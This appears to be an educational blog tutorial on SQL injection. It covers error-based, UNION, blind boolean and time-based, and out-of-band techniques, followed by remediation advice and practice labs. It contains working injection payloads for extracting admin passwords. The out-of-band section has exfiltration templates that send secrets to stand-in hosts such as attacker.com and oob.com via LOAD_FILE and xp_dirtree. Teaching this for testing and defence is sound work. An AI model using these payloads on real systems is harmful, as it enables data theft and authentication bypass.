








# Introduction :

- Databases power almost every modern application — from login systems and e-commerce carts to internal dashboards and IoT backends. That power comes with responsibility: when an app treats user input like code instead of data, attackers can hijack those database queries and quietly steal, alter, or delete information. This class of vulnerability is called **SQL Injection (SQLi)**, and despite being one of the oldest web vulnerabilities, it remains one of the most damaging and common.

- In this blog you’ll find a practical, hands-on guide that starts with the basics of SQL and then walks through the most important SQLi techniques: in-band (error and UNION), blind (boolean and time-based), and out-of-band attacks. For each technique I’ll include clear proof-of-concept checklists, real demo examples (safe and ethical), and the automation tools commonly used by testers. Crucially, this isn’t just about how attacks work — you’ll also get actionable mitigation strategies, secure coding patterns, and the network controls that stop exfiltration at the source.

- If you’re learning web security, preparing for bug bounty work, or hardening an app for production, this post will give you both the conceptual understanding and the tactical steps you need. Read on to learn how attackers think — and how to make sure they can’t turn your database into theirs.


---

### What is a Database?

A **database** is an organized collection of data stored and managed electronically. It allows users and applications to store, retrieve, update, and manage information efficiently. Instead of keeping data in random files or spreadsheets, databases provide structure, consistency, and powerful tools to handle large volumes of data.

### Types of Databases

Databases are not all the same; they are designed for different purposes depending on the type of data and how it needs to be managed. Here are the most common types:


### Introduction to SQL

**SQL (Structured Query Language)** is the standard language used to interact with relational databases. With SQL, you can perform actions such as:

- **Creating** databases and tables.
- **Inserting** new records.
- **Reading** or **querying** existing data.
- **Updating** existing records.
- **Deleting** unwanted data.

SQL acts as a bridge between the user (or application) and the database system.

### Why Do We Use SQL?

We use SQL because:
1. It provides a **standardized way** to manage data across many database systems (MySQL, PostgreSQL, Oracle, SQL Server).
2. It allows you to find and analyze information quickly using advanced queries
3. It ensures **data integrity and security** when used correctly.
4. It is widely supported, meaning almost every modern application relies on SQL at some level.

### Most Common SQL Query :

- **SELECT :** 
	The `SELECT` statement is used to select data from a database.
	Syntax :
```sql
	SELECT column1, column2, ... 
	FROM table_name
	WHERE NOT condition;
```

- **UNION :**  
	The `UNION` operator is used to combine the result-set of two or more `SELECT` statements.
	The `UNION` operator automatically removes duplicate rows from the result set.
	Requirements for `UNION`:
	- Every `SELECT` statement within `UNION` must have the same number of columns
	- The columns must also have similar data types
	- The columns in every `SELECT` statement must also be in the same order

	Syntax :
```sql
	SELECT column_name(s) FROM table1 
	UNION  
	SELECT column_name(s) FROM table2;
```

- **WHERE :** The `WHERE` clause is used to filter records, and It is used to extract only those records that fulfill a specified condition .
	Syntax :
```sql
	SELECT column1, column2, ... 
	FROM table_name
	WHERE condition;
```

- **SUBSTRING :** The SUBSTRING() function extracts some characters from a string.
	Syntax : 
```sql
	SUBSTRING(string, start, length)
```
##### Some SQL Operator with WHRER clause  : 

- **And :** is used to filter records based on multiple conditions, where all conditions must be true for a record to be included in the result set.
	Syntax :
```sql
	SELECT column1_, column2, ... 
	FROM table_name
	WHERE condition1 AND condition2 AND condition3 ...;
```

- **OR :** is used in queries to filter data by combining multiple conditions, returning rows where at least one condition is true .
	Syntax :
```sql
	SELECT column1, column2, ...  
	FROM table_name
	WHERE condition1 OR condition2 OR condition3 ...;
```

- **NOT :** The `NOT` operator is used in combination with other operators to give the opposite result, also called the negative result.
	Syntax : 
```sql
	SELECT column1, column2, ...
	FROM table_name
	WHERE NOT condition;
```

- **LIKE :** The LIKE operator in SQL is used to search for a specified pattern in a column, often in combination with wildcard characters. The percent sign ( % ) represents zero or more characters, while the underscore ( _ ) represents a single character, allowing for flexible pattern matching in queries.
	Syntax :
```sql
	SELECT column1, column2, ...  
	FROM table_name  
	WHERE column LIKE pattern;
```

- **ORDER  BY :** The SQL ORDER BY clause is used to sort the results of a query based on one or more columns, either in ascending (ASC) or descending (DESC) order. By default, it sorts in ascending order if no order is specified.
	Syntax :
```sql
	SELECT * FROM table_name  
	ORDER BY column ASC,DESC;
```


--- 


OK , now after we did know basics about SQL let's start with SQLI :

## SQLI (SQL Injection) :

### What is SQLI : 
- **SQLI** is a class of security flaw that allows an attacker to interfere with the queries an application makes to its database. An attacker can view, modify, or delete data, bypass authentication, and in some cases execute commands on the underlying server — all by manipulating input fields that are used in SQL statements.
#### Why it’s dangerous :
1. Exposes sensitive data (user credentials, PII, financial records).
2. Allows authentication bypass (login as admin).
3. Enables data modification or deletion.
4. Can be used as a foothold for further compromise (depending on DB/server setup).

#### How an SQLi vulnerability happens :
- SQL Injection (SQLi) happens when an application includes untrusted user input directly inside an SQL query so that the input can change the query’s structure. In other words: **user data is treated like code**.

### Kinds of a SQLI vulnerability :


## In Band SQLI : 
- **In-band SQL injection (SQLi)** is a type of attack where an attacker uses the same communication channel to both launch the attack and receive the results. This method is common and includes techniques like error-based SQLi, where attackers exploit error messages, and union-based SQLi, where they use the UNION SQL operator to combine results from multiple queries.

### Error-based SQLI :
- **Error-based SQL Injection** is a type of in-band SQLi where attackers exploit error messages generated by the database server. These errors can reveal details about the database structure, such as table names, column names, and data types. In many cases, simply using error-based SQL injection is sufficient for an attacker to map out the entire database.

### How it works :



##### PoC checklist :
1. Confirm vulnerability: inject `'` or malformed input and look for SQL syntax errors.
2. Trigger controlled error: use payloads that force an error (e.g., `CONVERT(...)`, `extractvalue(...)`) to include DB data in the error.
3. Extract info: start with `version()` and `database()`, then enumerate `information_schema.tables` / `information_schema.columns`.

- **In summary**, Error-based SQL Injection is an in-band technique where an attacker forces the database to produce error messages that reveal internal information (schema, columns, data), which can be used to enumerate the database.

### UNION Based SQL Injection : 
- **Union-based SQL Injection** is an _in-band_ SQLi technique that uses the SQL `UNION` operator to append the result of an attacker-controlled query to the results of the original query. If the application displays query results on the page, the attacker’s results appear together with legitimate data — allowing direct exfiltration of database contents.

### How it works :

#### PoC checklist : 
1. **Identify Input Points :** URL, POST, Cookies, Headers.
2. **Test if Vulnerable :** 
	- Test with invalid input: `' ORDER BY 1--` , `' ORDER BY 2--` . . .
		→ Increase the number until you get an error; this tells you the number of columns.
	- Test `UNION SELECT`: `' UNION SELECT NULL,NULL--` . . .
		→ Adjust number of `NULL`s to match columns.
3. **Identify Column Data Types :** 
	- Use `NULL, 'text', 123, ...` to see which columns display output on the page.
	- Mark columns that are **reflected in the response**.
4. **Extract Data :** 
	- Once reflected column found : `' UNION SELECT 1, username, password FROM Users-- `
	- Always comment out the remaining query : `--` .

- **In summary**, Union-based SQL Injection leverages the `UNION` operator to append attacker-controlled rows to the application’s original query results. When successful, it allows an attacker to read database contents directly in the page output (table names, column names, user data, etc.). 

---

## Blind Based SQLI :
- **Blind SQL Injection** happens when an application is vulnerable to SQL injection but its HTTP responses do not reveal query results or database error details. Because the application does not show the injected-query output, many common techniques — such as `UNION` attacks — are ineffective against blind SQLi. That said, blind SQL injection can still be exploited to retrieve unauthorized data; it simply requires different, indirect techniques (e.g., boolean-based or time-based methods) that infer database values from changes in the application's behavior or response timing.

### Boolean-Based SQLI : 
- **Boolean-based blind SQLi** is a technique used when an application is vulnerable to SQL injection but does not return query results or database error messages. Instead of seeing data directly, an attacker submits inputs that evaluate to either **TRUE** or **FALSE** and observes differences in the application’s responses (content, status, or behavior). By asking yes/no questions about the database and observing the response change, the attacker can infer data one bit/character at a time.

### How it works :




##### PoC checklist :
1. Identify Input Points :** URL parameters, POST parameters, Cookies, Headers
2. **Test for SQLi :**
	Inject a simple boolean condition:
    - `' AND 1=1--` → Should return normal page.
    - `' AND 1=2--` → Should return altered page (error, empty, different content).
3. Observe:
    - Page content changes.
    - Status codes.
    - Response time (sometimes timing differences indicate SQLi).
4. **Extract Information :** Database version:  `' AND substring(@@version,1,1)='X'--` , Usernames or passwords:  `' AND substring((SELECT password FROM Users WHERE username='admin'),1,1)='X'--` .

- **In summary,** Boolean-based SQL Injection (SQLi) allows an attacker to manipulate SQL queries by sending conditions that evaluate to TRUE or FALSE. By observing how the application responds differently, sensitive information—like usernames or passwords—can be inferred without directly seeing the data.


### Time-Based SQLI : 
- **Time-based blind SQLi** is a technique where the attacker cannot see database output directly but can **infer information based on response delays**. By injecting SQL that causes the database to “sleep” for a few seconds if a condition is true, the attacker can deduce information bit by bit.

### How it works :



##### PoC checklist :
1. **Identify Input Points:** URL params, POST params, Cookies, Headers, JSON bodies.
2. **Establish baseline:** Send several benign requests and note average response time.
3. **Test for time delay:** inject a conditional sleep and compare times:
    - MySQL example:
        
        ```sql
        1' AND IF(SUBSTRING((SELECT [COLUMN] FROM [TABLE] WHERE
         [COND]),1,1)='a', SLEEP(5), 0)--
        ```
        
    - PostgreSQL example:
        
        ```sql
        1' AND (SELECT CASE WHEN SUBSTRING((SELECT [COLUMN] FROM [TABLE] WHERE [COND]),1,1)='a' THEN pg_sleep(5) ELSE pg_sleep(0) END)--
        ```
        
4. **Confirm true vs false:** TRUE case → response ≈ baseline + sleep; FALSE case → ≈ baseline. Repeat and average to avoid network noise.
5. **Extract data (char-by-char):** for position `i = 1..N`, test characters from a charset and record which causes the delay → that character is at position `i`.
6. **Collect evidence:** save raw requests/responses with timestamps, timing logs, and the exact payloads used.

- **In summary ,** Time-based blind SQLi forces the database to pause (e.g., `SLEEP(5)`, `pg_sleep(5)`) when a tested condition is true. An attacker infers data by measuring response delays and can reconstruct values one character at a time. Prevent it with prepared statements, strict input validation, and proper DB permissions.

---


## Out-Of-Band SQLI :
- **Out-of-band SQL injection (OOB SQLi)** is a type of SQL injection attack where the attacker causes the application to send data to a remote server they control, rather than receiving a response through the same channel. This method relies on the server executing commands that trigger DNS or HTTP requests to the attacker's endpoint.

### Why use OOB SQLi :
1. **When in-band methods fail:**
    - Boolean-based, error-based, or union-based SQLi rely on the web application returning responses.
    - If the application **suppresses errors**, filters output, or returns constant pages, in-band techniques won’t work.
    - OOB allows data exfiltration **without relying on page content**.
2. **Bypass WAF / filters:**
    - Many Web Application Firewalls block common SQLi payloads.
    - OOB SQLi often triggers **external network requests**, which can bypass filters that only inspect responses.
3. **Stealth & discrete exfiltration:**
    - Data is sent **directly to the attacker-controlled server** (DNS or HTTP).
    - This avoids leaving obvious traces in the web application itself.
4. **Works for limited output or blind scenarios:**
    - Useful when the database or app is heavily restricted.
    - Time-based or Boolean methods may be slow; OOB can extract **larger chunks of data faster** in some setups.
5. **Detect misconfigurations:**
    - Testing OOB can reveal if the database **can make outbound network connections**, which is itself a security risk.

### How it Works :



- `LOAD_FILE(...)` — attempts to read a file/resource (used here to trigger an outbound fetch).
- `CONCAT('http://attacker.com/', password)` — builds a URL that embeds the secret.
- `SELECT ... FROM Users WHERE username='admin'` — selects the sensitive column.

### PoC checklist :
1. **Verify outbound capability:** send a harmless probe to your OOB domain.
2. **Find injection points:** URL/POST/cookies/headers.
3. **Choose channel:** DNS or HTTP (your-controlled domain).
4. **Minimal payload (template):**
    - DNS (MSSQL): `1'; EXEC xp_dirtree('\\' + (SELECT [COL] FROM [TABLE] WHERE [COND]) + '.oob.com\');--`
    - HTTP (MySQL concept): `1' AND (SELECT LOAD_FILE(CONCAT('http://oob.com/', (SELECT [COL] FROM [TABLE] WHERE [COND]))))--`
5. **Capture evidence:** DNS/HTTP logs + timestamps + raw requests.


- **In summary,** We use OOB SQLi when traditional SQLi methods don’t work or are filtered, to discreetly exfiltrate data through DNS/HTTP requests, bypassing in-page restrictions and testing network misconfigurations.

---

## Automation :

-  **Automation** speeds up finding SQL injection but doesn’t replace human review. Tools like **sqlmap**, **sqlninja**, **BBQSQL**, and **JSQL Injection** can quickly fingerprint databases, test common payloads (boolean, time-based, union), and automate blind-extraction. Use automation to scan broadly and gather leads, then **manually validate** findings — automated results produce false positives/negatives and can miss context-specific logic. Be careful with aggressive settings (risk/threads) to avoid service disruption. Integrate these tools into your workflow (CI scans, periodic pentests) and always keep tests authorized and logged.

---
## Remediation :

- **Use parameterized queries / prepared statements** — never concatenate user input into SQL.  
- **Principle of least privilege** — app DB accounts should have only the permissions they need.  
- **Input validation & allow-lists** — validate types/lengths/formats; prefer allow-lists over blacklists.
- **Avoid displaying DB errors** — return generic error messages; log details server-side.  
- **Use ORMs or safe DB libraries** (correctly) — they reduce raw-query risks when used properly.  
- **Disable multiple statements** in DB connectors (no stacked queries) unless explicitly needed.  
- **WAF & query logging** — add a tuned WAF, monitor logs and alerts for suspicious patterns.  
- **Network controls** — block unnecessary outbound access from DB servers.  
- **Code review & testing** — static analysis, code review, and regular security testing (authorized).

---
### **Quotes**

> "SQL Injection is not just a bug—it’s a failure to validate user input and enforce safe database practices." – _OWASP_

> "You can automate tests, but true security comes from understanding how the database and queries work." 

> "The easiest way to prevent SQL Injection is to never trust user input." 


---

### **Recommended Resources :**

- **OWASP SQL Injection Guide :** [https://owasp.org/www-community/attacks/SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- **Portswigger SQL Injection :** [https://portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)
- **PortSwigger SQL Injection cheat sheet :** [portswigger_cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


---

### **Labs for Safe Practice :**

- **PortSwigger Labs :** [portswigger sql injection labs](https://portswigger.net/web-security/all-labs#sql-injection)
- **bWAPP :** [http://www.itsecgames.com/](http://www.itsecgames.com/) – practice various injection techniques safely.
- **TryHackMe :**  [sqlilab](https://tryhackme.com/room/sqlilab) , [sql injection](https://tryhackme.com/room/sqlinjectionlm) , [sqlmap](https://tryhackme.com/room/sqlmap) , [Advanced SQL Injection](https://tryhackme.com/room/advancedsqlinjection) , [sch3mad3mon](https://tryhackme.com/room/sch3mad3mon) , [sqhell](https://tryhackme.com/room/sqhell) .

---

_**Keep experimenting, keep learning, stay safe**_

